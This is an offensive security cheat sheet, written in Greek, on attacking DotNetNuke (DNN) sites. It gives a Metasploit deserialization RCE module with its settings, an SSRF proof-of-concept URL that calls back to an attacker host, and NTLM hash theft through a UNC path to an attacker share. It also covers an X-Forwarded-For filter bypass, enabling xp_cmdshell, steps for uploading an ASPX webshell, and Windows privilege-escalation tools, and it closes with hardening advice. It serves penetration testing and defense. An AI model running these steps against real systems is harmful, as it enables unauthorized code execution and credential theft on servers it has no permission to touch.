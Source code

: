 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Αν εισέλθετε ως **administrator** στο DNN, είναι εύκολο να αποκτήσετε **RCE**, ωστόσο έχουν δημοσιευθεί αρκετές *unauthenticated* και *post-auth* τεχνικές τα τελευταία χρόνια. Το παρακάτω cheat-sheet συγκεντρώνει τις πιο χρήσιμες πρωτογενείς μεθόδους τόσο για επιθετική όσο και για αμυντική εργασία.

---
## Έκδοση & Καταμέτρηση Περιβάλλοντος

* Ελέγξτε την *X-DNN* HTTP απάντηση – συνήθως αποκαλύπτει την ακριβή έκδοση της πλατφόρμας.
* Ο οδηγός εγκατάστασης αποκαλύπτει την έκδοση στο `/Install/Install.aspx?mode=install` (προσβάσιμο σε πολύ παλιές εγκαταστάσεις).
* Το `/API/PersonaBar/GetStatus` (9.x) επιστρέφει ένα JSON blob που περιέχει το `"dnnVersion"` για χρήστες χαμηλών δικαιωμάτων.
* Τυπικά cookies που θα δείτε σε μια ζωντανή εγκατάσταση:
* `.DOTNETNUKE` – ASP.NET forms authentication ticket.
* `DNNPersonalization` – περιέχει XML/serialized δεδομένα προφίλ χρήστη (παλιές εκδόσεις – δείτε RCE παρακάτω).

---
## Μη Αυθεντικοποιημένη Εκμετάλλευση

### 1. Deserialization RCE Cookie (CVE-2017-9822 & follow-ups)
*Επηρεαζόμενες εκδόσεις ≤ 9.3.0-RC*

`DNNPersonalization` αποδομείται σε κάθε αίτημα όταν είναι ενεργοποιημένος ο ενσωματωμένος χειριστής 404. Έτσι, το κατεργασμένο XML μπορεί να οδηγήσει σε αυθαίρετες αλυσίδες gadget και εκτέλεση κώδικα.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Το module επιλέγει αυτόματα τη σωστή διαδρομή για τις διορθωμένες αλλά ακόμα ευάλωτες εκδόσεις (CVE-2018-15811/15812/18325/18326). Η εκμετάλλευση λειτουργεί **χωρίς αυθεντικοποίηση** σε 7.x–9.1.x και με έναν *επιβεβαιωμένο* λογαριασμό χαμηλών δικαιωμάτων σε 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Επηρεαζόμενες εκδόσεις < 9.13.8  –  Διόρθωση που εκδόθηκε Απρίλιο 2025*

Μια παράκαμψη της παλαιότερης διόρθωσης `DnnImageHandler` επιτρέπει σε έναν επιτιθέμενο να αναγκάσει τον διακομιστή να εκδώσει **τυχαία GET αιτήματα** (ημι-τυφλό SSRF). Πρακτικές επιπτώσεις:

* Εσωτερική σάρωση θυρών / ανακάλυψη υπηρεσιών μεταδεδομένων σε αναπτύξεις cloud.
* Πρόσβαση σε hosts που αλλιώς είναι προστατευμένοι από το Διαδίκτυο.

Απόδειξη της έννοιας (αντικαταστήστε `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Η αίτηση ενεργοποιείται στο παρασκήνιο. Παρακολουθήστε τον ακροατή σας για callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*Επηρεαζόμενες εκδόσεις 6.0.0 – 9.x (< 10.0.1)*

Ειδικά διαμορφωμένο περιεχόμενο μπορεί να κάνει το DNN να προσπαθήσει να αποκτήσει μια πηγή χρησιμοποιώντας μια **UNC διαδρομή** όπως `\\attacker\share\img.png`.  Τα Windows θα εκτελέσουν ευχαρίστως τη διαπραγμάτευση NTLM, διαρρέοντας τους hash λογαριασμού του διακομιστή στον επιτιθέμενο.  Αναβαθμίστε σε **10.0.1** ή απενεργοποιήστε το SMB εξόδου στο τείχος προστασίας.

### 4. IP Filter Bypass  (CVE-2025-52487)
Εάν οι διαχειριστές βασίζονται σε *Host/IP Filters* για την προστασία της πύλης διαχείρισης, να γνωρίζετε ότι οι εκδόσεις πριν από **10.0.1** μπορούν να παρακαμφθούν με την παραποίηση του `X-Forwarded-For` σε σενάριο αντίστροφης προώθησης.

---
## Post-Authentication to RCE

### Via SQL console
Κάτω από **`Settings → SQL`** ένα ενσωματωμένο παράθυρο ερωτήματος επιτρέπει την εκτέλεση κατά της βάσης δεδομένων του ιστότοπου.  Στον Microsoft SQL Server μπορείτε να ενεργοποιήσετε **`xp_cmdshell`** και να δημιουργήσετε εντολές:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via ASPX webshell upload
1. Πηγαίνετε στο **`Settings → Security → More → More Security Settings`**.
2. Προσθέστε `aspx` (ή `asp`) στις **Allowable File Extensions** και **Save**.
3. Περιηγηθείτε στο **`/admin/file-management`** και ανεβάστε `shell.aspx`.
4. Ενεργοποιήστε το στο **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation on Windows
Μόλις επιτευχθεί η εκτέλεση κώδικα ως **IIS AppPool\<Site>**, ισχύουν κοινές τεχνικές ανύψωσης δικαιωμάτων στα Windows. Αν το σύστημα είναι ευάλωτο, μπορείτε να εκμεταλλευτείτε:

* **PrintSpoofer** / **SpoolFool** για να καταχραστείτε το *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** για να ξεφύγετε από *Service Accounts*.

---
## Hardening Recommendations (Blue Team)

* **Upgrade** σε τουλάχιστον **9.13.9** (διορθώνει το SSRF bypass) ή κατά προτίμηση **10.0.1** (θέματα IP filter & NTLM).
* Αφαιρέστε τα υπολειπόμενα αρχεία **`InstallWizard.aspx*`** μετά την εγκατάσταση.
* Απενεργοποιήστε την εξερχόμενη SMB (θύρες 445/139).
* Επιβάλετε ισχυρούς *Host Filters* στον edge proxy αντί για μέσα στο DNN.
* Εμποδίστε την πρόσβαση στο `/API/RemoteContentProxy` αν δεν χρησιμοποιείται.

## References

* Metasploit `dnn_cookie_deserialization_rce` module documentation – practical unauthenticated RCE details (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & patch information.
{{#include ../../banners/hacktricks-training.md}}
